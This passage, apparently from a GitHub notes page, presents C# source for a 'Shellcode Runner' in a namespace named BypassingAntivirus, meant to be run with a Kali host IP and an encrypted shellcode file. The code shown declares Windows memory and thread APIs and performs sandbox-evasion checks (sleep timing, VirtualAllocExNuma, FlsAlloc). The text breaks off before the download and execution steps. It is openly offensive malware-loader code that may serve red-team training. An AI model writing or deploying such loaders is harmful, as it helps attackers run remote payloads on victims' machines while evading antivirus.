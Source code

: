 ### Shellcode Runner

`run.exe <Kali IP> <encrypted csharp shellcode file>`

```csharp
using System;
using System.Runtime.InteropServices;
using System.Net.Http;
using System.Text.RegularExpressions;

namespace BypassingAntivirus
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr FlsAlloc(IntPtr callback);

        static void Main(string[] args)
        {
            DateTime t1 = DateTime.Now;
            Sleep(2000);
            double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
            if (t2 < 1.5)
            {
                return;
            }

            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }

            IntPtr flsindex = FlsAlloc(IntPtr.Zero);
            if (flsindex == null)
            {
                return;
            }

            // Check if a URL was provided
            if (args.Length != 2)
            {
```